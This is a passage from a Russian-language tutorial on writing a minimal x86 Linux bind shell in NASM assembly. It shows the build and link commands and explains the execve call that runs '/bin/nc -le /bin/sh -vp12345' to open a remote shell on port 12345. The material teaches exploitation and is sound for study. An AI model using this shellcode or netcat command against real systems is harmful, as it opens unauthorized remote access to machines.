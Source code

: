 ```nasm
push ebx
mov ecx, esp
xor eax, eax
mov al,11
int 0x80
```

Сохраним ее как `super_small_bind_shell_1.nasm` и далее скомпилируем:

```
$ nasm -f elf32 super_small_bind_shell_1.nasm
```

а затем слинкуем наш код:

```
$ ld -m elf_i386 super_small_bind_shell_1.o -o super_small_bind_shell_1
```

и запустим получившуюся программу через трассировщик (strace), чтобы посмотреть, что она делает:

```
$ strace ./super_small_bind_shell_1
```

![[Pasted image 20230618074343.png]]

Как видишь, никакой магии. Через системный вызов `execve()` запускается `netcat`, который начинает слушать на порте 12345, открывая удаленный шелл на машине. В нашем случае мы использовали системный вызов `execve()` для запуска бинарного файла `/bin/nc` с нужными параметрами (`-le/bin/sh -vp12345`).

**execve()** имеет следующий прототип:

```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```

- **filename** обычно указывает путь к исполняемому бинарному файлу — `/bin/nc`;
- **argv[]** служит указателем на массив с аргументами, включая имя исполняемого файла, — `["/bin//nc", "-le//bin//sh", "-vp12345"]`;
- **envp[]** указывает на массив, описывающий окружение. В нашем случае это NULL, так как мы не используем его.

Синтаксис нашего системного вызова (функции) выглядит следующим образом:

```c
execve("/bin//nc", ["/bin//nc", "-le//bin//sh", "-vp12345"], NULL)
```

## Описываем системные вызовы через ассемблер

Как было сказано в начале статьи, для указания системного вызова используется соответствующий номер (номера системных вызовов для x86 можно посмотреть здесь: `/usr/include/x86_64-linux-gnu/asm/unistd_32.h`), который необходимо поместить в регистр EAX (в нашем случае в регистр EAX, а точнее в его младшую часть AL было занесено значение 11, что соответствует системному вызову `execve()`).

Аргументы функции должны быть помещены в регистры EBX, ECX, EDX:
